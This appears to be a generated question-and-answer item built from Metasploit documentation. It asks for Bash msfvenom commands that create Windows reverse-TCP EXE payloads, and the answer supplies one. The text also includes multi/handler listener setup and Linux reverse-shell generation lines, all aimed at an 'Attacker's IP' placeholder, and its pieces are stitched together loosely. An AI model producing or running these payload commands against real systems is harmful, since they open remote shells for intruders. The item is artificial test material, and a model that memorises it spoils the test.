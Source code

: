 Context:```

Typically, this is probably how you will use msfvenom:
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
### Step 2: Copy the executable payload to box B
### Step 3: Set up the payload handler on box A
Box A is the attacker machine.
```bash
$ ./msfconsole -q
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
# Generate a payload for use within C
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f c

# Generate an ELF file for execution on Linux environments
msf6 payload(linux/x86/shell_reverse_tcp) > generate -f elf -o linux_shell

 Question: Generate a list of Bash commands to create EXE payloads for Windows using Metasploit. Each command should generate a reverse TCP payload and follow the format for Metasploit's msfvenom tool, targeting Windows systems.Respond with only bash command with no output or other text explaination. 
```
```
```
 Your response: 
```
$ ./msfvenom -p windows/meterpreter/reverse_tcp lhost=[Attacker's IP] lport=4444 -f exe -o /tmp/my_payload.exe
```
